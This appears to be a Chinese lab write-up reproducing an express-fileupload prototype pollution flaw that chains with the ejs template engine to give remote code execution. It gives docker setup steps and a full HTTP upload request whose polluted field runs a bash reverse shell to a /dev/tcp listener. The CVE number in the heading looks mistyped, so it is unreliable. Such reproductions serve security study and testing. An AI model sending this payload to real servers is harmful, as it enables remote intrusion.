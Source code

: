 # NodeJS expresss-fileupload模块原型链污染漏洞（CVE-2022-7699）

## 漏洞原理

`express-fileupload`是用来处理上传文件的中间件，在`1.1.7-alpha.4`及以前的版本存在原型链污染漏洞，如果站点还使用`ejs模板引擎(<=3.1.6)`，可以通过构造调用链污染`outputFunctionName`参数从而造成远程代码执行。

参考链接：

参考链接：

- https://blog.p6.is/Real-World-JS-1/
- https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html

## 环境搭建

编译及运行环境：

```bash
docker-compose build
docker-compose up -d
```

## 漏洞复现

成功运行后，访问`http://your-ip:3000/`即可查看。

![img](1.png)

首先在本机开启端口监听，之后发送如下数据包，即可成功反弹shell。

```text
POST /upload HTTP/1.1
Host: Host: your-ip:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Content-Length: 306
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypDa6OHB96f0GI9ze

------WebKitFormBoundarypDa6OHB96f0GI9ze
Content-Disposition: form-data; name="__proto__.outputFunctionName"

x;process.mainModule.require('child_process').exec('bash -c "bash -i &> /dev/tcp/your-ip/4444 0>&1"');delete Object.prototype['outputFunctionName'];x
------WebKitFormBoundarypDa6OHB96f0GI9ze--
```

PS：发送攻击后，会污染整个程序的原型链。之后正常的访问页面也会有影响，除非重启整个程序。所以需要删除污染的原型。
